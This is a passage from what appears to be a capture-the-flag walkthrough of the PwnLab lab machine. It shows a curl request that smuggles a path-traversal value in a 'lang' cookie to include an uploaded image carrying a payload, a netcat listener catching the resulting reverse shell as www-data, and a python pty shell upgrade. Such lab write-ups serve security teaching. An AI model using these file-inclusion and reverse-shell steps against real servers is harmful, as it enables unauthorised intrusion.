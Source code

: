 This appears to be a harmless image, but isn't.

![](/assets/images/pwnlab/screenshot-6.png)

We set up a netcat listener and execute the following curl request.

```bash
root@kali:~$ curl --cookie 'lang=../upload/f659f52b072e3f886046f726803ef421.png' 192.168.179.176 --output out
```

We have a shell as user www-data and upgrade it to a TTY shell.

```bash
root@kali:~$ nc -vlnp 443                
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.176] 36455
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 10:14:42 up 56 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@pwnlab:/$
```
